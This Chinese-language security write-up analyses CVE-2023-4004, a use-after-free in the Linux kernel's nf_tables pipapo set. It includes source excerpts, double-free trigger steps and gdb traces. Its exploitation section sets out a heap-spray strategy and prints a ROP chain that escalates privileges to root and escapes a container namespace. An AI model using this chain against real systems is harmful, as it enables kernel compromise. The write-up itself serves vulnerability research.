









# CVE-2023-4004 Linux 内核 UAF 漏洞分析与利用 - 先知社区

CVE-2023-4004 Linux 内核 UAF 漏洞分析与利用

- - -

## 漏洞分析

漏洞成因是 pipapo 类型的 set 在删除 elem 时的逻辑和插入时的逻辑不一致导致 没有 NFT\_SET\_EXT\_KEY\_END 扩展属性的 elem 会删除失败，最终形成了 UAF.

内核对 set 中的 elem 的生命周期管理的逻辑简述如下：

1.  set 中一般会使用链表、哈希表等方式存储其中的元素（elem）
2.  用户态通过 nf\_tables\_newsetelem 往 set 里面增加 elem
3.  用户态通过 nft\_setelem\_remove 从 set 里面删除元素

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221658670-261883402.png)​

不同类型的 set 通过注册回调的方式提供 elem 的插入、删除功能，pipapo set 的对应回调即为：nft\_pipapo\_insert 和 nft\_pipapo\_remove

```plain
const struct nft_set_type nft_set_pipapo_type = {
    .features   = NFT_SET_INTERVAL | NFT_SET_MAP | NFT_SET_OBJECT |
              NFT_SET_TIMEOUT,
    .ops        = {
        .lookup     = nft_pipapo_lookup,
        .insert     = nft_pipapo_insert,
        .activate   = nft_pipapo_activate,
        .deactivate = nft_pipapo_deactivate,
        .flush      = nft_pipapo_flush,
        .remove     = nft_pipapo_remove,
        .walk       = nft_pipapo_walk,
        .get        = nft_pipapo_get,
        .privsize   = nft_pipapo_privsize,
        .estimate   = nft_pipapo_estimate,
        .init       = nft_pipapo_init,
        .destroy    = nft_pipapo_destroy,
        .gc_init    = nft_pipapo_gc_init,
        .elemsize   = offsetof(struct nft_pipapo_elem, ext),
    },
};
```

通过分析 nft\_pipapo\_insert 代码 \[2\] ，可以知道 pipapo 通过 elem 的 NFT\_SET\_EXT\_KEY 和 NFT\_SET\_EXT\_KEY\_END 属性值作为元素的 id

```plain
static int nft_pipapo_insert(const struct net *net, const struct nft_set *set,
                 const struct nft_set_elem *elem,
                 struct nft_set_ext **ext2)
{
    const struct nft_set_ext *ext = nft_set_elem_ext(set, elem->priv);
    const u8 *start = (const u8 *)elem->key.val.data, *end;  // start --> NFT_SET_EXT_KEY 属性

    if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END))
        end = (const u8 *)nft_set_ext_key_end(ext)->data;
    else
        end = start;  // [1]

    dup = pipapo_get(net, set, start, genmask);
    if (!IS_ERR(dup)) {
        /* Check if we already have the same exact entry */
        const struct nft_data *dup_key, *dup_end;

        dup_key = nft_set_ext_key(&dup->ext);
        if (nft_set_ext_exists(&dup->ext, NFT_SET_EXT_KEY_END))
            dup_end = nft_set_ext_key_end(&dup->ext);
        else
            dup_end = dup_key;

        if (!memcmp(start, dup_key->data, sizeof(*dup_key->data)) &&   // [2] 根据 key 和 key_end 判断是否为重复元素
            !memcmp(end, dup_end->data, sizeof(*dup_end->data))) {
            *ext2 = &dup->ext;
            return -EEXIST;
        }

        return -ENOTEMPTY;
    }
```

如果插入的 elem 没有 NFT\_SET\_EXT\_KEY\_END 属性则会将 key 作为 key\_end，但是 nft\_pipapo\_remove 却忘记处理这一场景

```plain
static void nft_pipapo_remove(const struct net *net, const struct nft_set *set,
                  const struct nft_set_elem *elem)
{
    struct nft_pipapo *priv = nft_set_priv(set);
    struct nft_pipapo_match *m = priv->clone;
    struct nft_pipapo_elem *e = elem->priv;
    int rules_f0, first_rule = 0;
    const u8 *data;

    data = (const u8 *)nft_set_ext_key(&e->ext); // [3] 取 NFT_SET_EXT_KEY 

    e = pipapo_get(net, set, data, 0);
    if (IS_ERR(e))
        return;

    while ((rules_f0 = pipapo_rules_same_key(m->f, first_rule))) {
        union nft_pipapo_map_bucket rulemap[NFT_PIPAPO_MAX_FIELDS];
        const u8 *match_start, *match_end;
        struct nft_pipapo_field *f;
        int i, start, rules_fx;

        match_start = data;
        match_end = (const u8 *)nft_set_ext_key_end(&e->ext)->data; // [4] 直接尝试取 NFT_SET_EXT_KEY_END 属性

        start = first_rule;
        rules_fx = rules_f0;

        nft_pipapo_for_each_field(f, i, m) {
            if (!pipapo_match_field(f, start, rules_fx,
                        match_start, match_end))
                break;
```

当 e 没有 NFT\_SET\_EXT\_KEY\_END 属性，代码仍然会尝试通过 nft\_set\_ext\_key\_end 去取出 NFT\_SET\_EXT\_KEY\_END 属性，导致 match\_end 不等于 match\_start，而在 nft\_pipapo\_insert 插入元素时传入的 start 和 end 是相等的，因此 nft\_pipapo\_remove 将无法把 e 从 set 的哈希表中移除。

为了加深理解，下面再对 elem 的结构进行介绍，elem 的数据结构如下：

‍

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221700015-244655146.png)​

elem 的开头数据大小为 set->ops->elemsize 其中的数据结构与 set 的类型相关

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221700996-970327115.png)​

elem 的第二个部分是 struct nft\_set\_ext 结构体，在 struct nft\_set\_ext 的后面是实际的 ext 数据，ext->offset 是一个 9 字节的数组，数组中的每一项表示该类型的数据相对 ext 结构起始地址的偏移。

下图是一个存储了 NFT\_SET\_EXT\_KEY 和 NFT\_SET\_EXT\_KEY\_END 的 elem 对象的布局：

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221701960-171560021.png)​

> PS： offset\[0\] 保存了 NFT\_SET\_EXT\_KEY 数据相对 ext 的偏移；offset\[1\] 保存了 NFT\_SET\_EXT\_KEY\_END 数据相对 ext 的偏移；内核根据偏移就能计算出相应数据的地址。

下面再看一下内核访问 NFT\_SET\_EXT\_KEY 使用的相关代码：

```plain
static inline void *nft_set_ext(const struct nft_set_ext *ext, u8 id)
{
    return (void *)ext + ext->offset[id];
}

static inline struct nft_data *nft_set_ext_key(const struct nft_set_ext *ext)
{
    return nft_set_ext(ext, NFT_SET_EXT_KEY);
}

static inline struct nft_data *nft_set_ext_key_end(const struct nft_set_ext *ext)
{
    return nft_set_ext(ext, NFT_SET_EXT_KEY_END);
}
```

nft\_set\_ext\_key 首先从 ext->offset\[NFT\_SET\_EXT\_KEY\] 取出偏移，然后加上 ext 地址，最后强转为 `struct nft_data`​ 指针。

当试图删除一个没有 NFT\_SET\_EXT\_KEY\_END 属性的元素时，nft\_pipapo\_remove 里面的 match\_start 和 match\_end 变量分别如下图所示：

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221702825-18910488.png)​

异常计算得到的 match\_end 会导致无法在 nft\_pipapo\_match 找到并删除对应的 elem，最终 nft\_pipapo\_match 里面会有指向已经释放的 elem 的指针。

漏洞触发的步骤：

1.  创建一个 pipapo setA
2.  通过 NFT\_MSG\_NEWSETELEM 往 set 里面插入一个没有 NFT\_SET\_EXT\_KEY\_END 属性的元素 ve
3.  通过 NFT\_MSG\_DELSETELEM 删除 ve，由于漏洞 setA 里面还保留着 ve 的指针
4.  再次通过 NFT\_MSG\_DELSETELEM 删除 ve，导致 double free.

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221703645-788969425.png)​

‍

通过给 nft\_pipapo\_insert 和 nft\_pipapo\_remove 下断点可以确认同一个 elem 0xffff88800b95da00 被释放了两次，日志如下：

```plain
(gdb) c
Continuing.
[nft_pipapo_insert] set 0xffff88800b4a5e00 e: 0xffff88800b95da00 elem: 0xffffc90004683860
====================
#0  nft_pipapo_insert (net=0xffff888008d9e900, set=0xffff88800b4a5e00, elem=0xffffc90004683860, ext2=0xffffc900046837a8) at net/netfilter/nft_set_pipapo.c:1173
#1  0xffffffffc08429ba in nft_setelem_insert (flags=<optimized out>, ext=0xffffc90004683701, elem=0x2 <fixed_percpu_data+2>, set=0xffff88800b4a5e00, net=0xffff88800b4a3600) at net/netfilter/nf_tables_api.c:5753
#2  nft_add_set_elem (ctx=<optimized out>, set=<optimized out>, attr=<optimized out>, nlmsg_flags=<optimized out>) at net/netfilter/nf_tables_api.c:6182
#3  0xffffffffc08430ef in nf_tables_newsetelem (skb=<optimized out>, info=0xffffc90004683a50, nla=<optimized out>) at net/netfilter/nf_tables_api.c:6278
#4  0xffffffffc06dc271 in nfnetlink_rcv_batch (skb=0xffff88812bd36900, skb@entry=0xffff88812bd36200, nlh=0xffff88800c4ff414, nlh@entry=0xffff88800c4ff400, subsys_id=10, genid=genid@entry=0) at net/netfilter/nfnetlink.c:518
#5  0xffffffffc06dc858 in nfnetlink_rcv_skb_batch (nlh=<optimized out>, skb=0xffff88812bd36200) at net/netfilter/nfnetlink.c:639
#6  nfnetlink_rcv (skb=0xffff88812bd36200) at net/netfilter/nfnetlink.c:657
#7  0xffffffff81bc8796 in netlink_unicast_kernel (ssk=0xffff88800b94e440, skb=0xffff88812bd36200, sk=0xffff88800c405800) at net/netlink/af_netlink.c:1319


[nft_pipapo_remove] set 0xffff88800b4a5e00 e: 0xffff88800b95da00
====================
#0  nft_pipapo_remove (net=<optimized out>, set=0xffff88800b4a5e00, elem=<optimized out>) at net/netfilter/nft_set_pipapo.c:1916
#1  0xffffffffc0836f41 in nft_setelem_remove (elem=0x1 <fixed_percpu_data+1>, set=0xffff88800b95da00, net=0xffff8881273cf340) at net/netfilter/nf_tables_api.c:5858
#2  nft_setelem_remove (net=0xffff8881273cf340, set=0xffff88800b95da00, elem=0x1 <fixed_percpu_data+1>) at net/netfilter/nf_tables_api.c:5851
#3  0xffffffffc0846fef in nf_tables_commit (net=<optimized out>, skb=<optimized out>) at net/netfilter/nf_tables_api.c:9012
#4  0xffffffffc06dbfa6 in nfnetlink_rcv_batch (skb=0xffff88812bd36900, skb@entry=0xffff88812bd36200, nlh=0xffff88800b45e44c, nlh@entry=0xffff88800b45e400, subsys_id=10, genid=genid@entry=0) at net/netfilter/nfnetlink.c:567
#5  0xffffffffc06dc858 in nfnetlink_rcv_skb_batch (nlh=<optimized out>, skb=0xffff88812bd36200) at net/netfilter/nfnetlink.c:639
#6  nfnetlink_rcv (skb=0xffff88812bd36200) at net/netfilter/nfnetlink.c:657
#7  0xffffffff81bc8796 in netlink_unicast_kernel (ssk=0xffff88800b94e440, skb=0xffff88812bd36200, sk=0xffff88800c405800) at net/netlink/af_netlink.c:1319


[nft_pipapo_remove] set 0xffff88800b4a5e00 e: 0xffff88800b95da00
====================
#0  nft_pipapo_remove (net=<optimized out>, set=0xffff88800b4a5e00, elem=<optimized out>) at net/netfilter/nft_set_pipapo.c:1916
#1  0xffffffffc0836f41 in nft_setelem_remove (elem=0x1 <fixed_percpu_data+1>, set=0xffff88800b95da00, net=0xffff8881273cf340) at net/netfilter/nf_tables_api.c:5858
#2  nft_setelem_remove (net=0xffff8881273cf340, set=0xffff88800b95da00, elem=0x1 <fixed_percpu_data+1>) at net/netfilter/nf_tables_api.c:5851
#3  0xffffffffc0846fef in nf_tables_commit (net=<optimized out>, skb=<optimized out>) at net/netfilter/nf_tables_api.c:9012
#4  0xffffffffc06dbfa6 in nfnetlink_rcv_batch (skb=0xffff88812bd36900, skb@entry=0xffff88812bd36200, nlh=0xffff88800b45e44c, nlh@entry=0xffff88800b45e400, subsys_id=10, genid=genid@entry=0) at net/netfilter/nfnetlink.c:567
#5  0xffffffffc06dc858 in nfnetlink_rcv_skb_batch (nlh=<optimized out>, skb=0xffff88812bd36200) at net/netfilter/nfnetlink.c:639
#6  nfnetlink_rcv (skb=0xffff88812bd36200) at net/netfilter/nfnetlink.c:657
#7  0xffffffff81bc8796 in netlink_unicast_kernel (ssk=0xffff88800b94e440, skb=0xffff88812bd36200, sk=0xffff88800c405800) at net/netlink/af_netlink.c:1319
```

下断点的 gdb 脚本

```plain
import os
import sys
sys.path.append(os.path.dirname(__file__))

import gdb
from utils import *


def nft_pipapo_insert_cb(bp):
    elem = get_symbol_address("elem")
    e = get_symbol_address("elem->priv")
    set_addr = get_symbol_address("set")
    print("[nft_pipapo_insert] set 0x{:x} e: 0x{:x} elem: 0x{:x}".format(set_addr, e, elem))
    dump_backtrace()
    return False

nft_pipapo_insert_bp = WrapperBp("net/netfilter/nft_set_pipapo.c:1173", cb=nft_pipapo_insert_cb)


def nft_pipapo_remove_cb(bp):
    e = get_symbol_address("e")
    set_addr = get_symbol_address("set")
    print("[nft_pipapo_remove] set 0x{:x} e: 0x{:x}".format(set_addr, e))
    dump_backtrace()
    return False

nft_pipapo_remove_bp = WrapperBp("net/netfilter/nft_set_pipapo.c:1913", cb=nft_pipapo_remove_cb)


def nf_tables_set_elem_destroy_cb(bp):
    elem = get_symbol_address("$rdi")
    print("[nf_tables_set_elem_destroy] free 0x{:x}".format(elem))
    dump_backtrace()
    return False

nf_tables_set_elem_destroy_bp = WrapperBp("*0x{:x}".format(get_symbol_address("nf_tables_trans_destroy_work") + 0x1e1), cb=nf_tables_set_elem_destroy_cb)
```

‍

## 漏洞利用

通过漏洞可以获得 elem 对象的 UAF，该对象分配代码如下：

```plain
void *nft_set_elem_init(const struct nft_set *set,
            const struct nft_set_ext_tmpl *tmpl,
            const u32 *key, const u32 *key_end,
            const u32 *data, u64 timeout, u64 expiration, gfp_t gfp)
{
    struct nft_set_ext *ext;
    void *elem;

    elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
    if (elem == NULL)
        return NULL;
    ...
```

漏洞利用的思路如下：

1.  创建 pipapo set 触发漏洞得到 elem (VE) 的 UAF
2.  分配 table 利用 `table->udata`​ 占位 VE
3.  再次通过 set 释放 VE，导致 table->udata 被释放，漏洞转换为 table->udata 的 UAF
4.  然后分配 struct nft\_object 占位 table->udata，利用 table->udata 读取 nft\_object 的内容完成地址泄露
5.  然后再次类似操作使用 table->udata 占位劫持 nft\_object->ops 里面的函数指针做 ROP.

‍

用 table->udata 占位的好处在于其大小可控，数据可控且可以随时读取，用户态控制 table->udata 分配的代码如下，

```plain
if (nla[NFTA_TABLE_USERDATA]) {
        table->udata = nla_memdup(nla[NFTA_TABLE_USERDATA], GFP_KERNEL_ACCOUNT);
        if (table->udata == NULL)
            goto err_table_udata;

        table->udlen = nla_len(nla[NFTA_TABLE_USERDATA]);
    }
```

‍

内核代码段地址泄露的示意图：

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221704685-1256649044.png)​

‍

然后泄露堆地址，利用 obj 和 table->udata 重叠泄露 obj->udata 指针，这里存放着伪造的 ops

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221705596-126567413.png)​

> PS: 用户态进程通过 NFTA\_OBJ\_USERDATA 控制 obj->udata 的内容

然后释放 table->udata & 再次堆喷 table->udata 占位修改 obj->ops 到 fake ops。

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240122221706406-708346821.png)​

最后触发 `obj->ops->dump`​ 执行 ROP

```plain
*(uint64_t *)&ops[0x20] = kernel_off + 0xffffffff8198954b;//push rsi ; jmp qword ptr [rsi + 0x39]
    *(uint64_t *)&ops[0x30] = kernel_off + MODULE_CT_EXPECT_OBJ_TYPE_ADDR;
    *(uint64_t *)&ops[0x60] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x68] = kernel_off + INIT_CRED;//init_cred
    *(uint64_t *)&ops[0x70] = commit_creds;
    *(uint64_t *)&ops[0x78] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x80] = 1;
    *(uint64_t *)&ops[0x88] = kernel_off + 0xffffffff811b5600;//find_task_by_vpid
    *(uint64_t *)&ops[0x90] = kernel_off + 0xffffffff8112cfc0;//pop rdi; ret
    *(uint64_t *)&ops[0x98] = 0;
    *(uint64_t *)&ops[0xa0] = kernel_off + 0xffffffff818624b5;//or rdi, rax ; test rdi, rdi ; setne al ; ret
    *(uint64_t *)&ops[0xa8] = kernel_off + 0xFFFFFFFF815014BE; //pop rsi ; ret
    *(uint64_t *)&ops[0xb0] = kernel_off + 0xFFFFFFFF836765C0;//init_nsproxy
    *(uint64_t *)&ops[0xb8] = kernel_off + 0xffffffff811bd180; //switch_task_namespaces
    *(uint64_t *)&ops[0xc0] = kernel_off + 0xffffffff82141df6;//swagpgs; ret
    *(uint64_t *)&ops[0xc8] = kernel_off + 0xFFFFFFFF82201157;//iretq
    *(uint64_t *)&ops[0xd0] = (uint64_t)shell;
    *(uint64_t *)&ops[0xd8] = user_cs;
    *(uint64_t *)&ops[0xe0] = user_rflags;
    *(uint64_t *)&ops[0xe8] = user_rsp|8;
    *(uint64_t *)&ops[0xf0] = user_ss;
```

‍

## 参考资料

-   [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-4004\_lts\_cos\_mitigation/docs/exploit.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-4004_lts_cos_mitigation/docs/exploit.md)
